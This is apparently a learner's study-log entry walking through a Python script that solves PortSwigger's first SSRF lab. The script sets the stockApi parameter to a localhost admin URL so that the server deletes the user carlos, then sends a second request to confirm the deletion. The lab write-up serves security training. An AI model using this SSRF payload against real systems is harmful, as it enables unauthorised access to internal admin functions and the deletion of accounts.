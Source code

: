 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network:

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the [full code in good format here](/Python/SSRF-lab1.py)], which I'm gonna tryna explain you people here below. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but in-order to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. [If name-main](https://www.freecodecamp.org/news/if-name-main-python-example/): Check out this article to know more about why do we add this. 
   - My explanation: In simple terms, the python interpreter always checks for this `__name__` function line if it is set to the same. it will execute whatever is mentioned to be executed under it. Also since python is interpreted lang, it checks code line by line. 

```
if __name__ == "__main__":
    main()
```
4. Defining the main function. Here if the arguments by the user is not in the correct format or length, the whole program won't execute, otherwise will execute the program, which here is deleting the user Carlos as mentioned to-do in the lab-01 of SSRF.

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```

5. After defining the main user, it's time now to define the `delete_user(url)`. The goal of the program is to get the admin access and then delete the user named carlos. While looking to the source code, we got the admin path which was `/admin` and while looking at the admin source code we got the delete user path `/delete?username=carlos`. So here the below code make's the resuest to the url mentioned by the user while excuting this script and does the task.

```
def delete_user(url):
    payload = 'http://localhost/admin/delete?username=carlos' #since we have to delete the carlos username
    check_stock_path = '/product/stock' 
    params = {'stockApi': payload} #which is in the stock request
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
```
6. Now until above the if script executed, the user would have be deleted but what if we want to check if our script worked is correct or not, hence below code. Here we make an another request to the `/admin` path and in the response the script will check for keyword `User deleted successfully`, if mentioned then it is a success, if not - unsuccess. 

```
   # Now checking if it our script actually worked or not - which is here deleting the user name carlos 
    payload2 = 'http://localhost/admin'
    params2 = {'stockApi': payload2}
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params2)
    if "User deleted successfully" in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was Unsuccessful.")
```
<img width="975" alt="Screenshot 2021-10-12 at 2 45 13 PM" src="https://user-images.githubusercontent.com/56188454/136928028-af5b83df-95d0-4138-aa05-8be47a4fed2e.png">


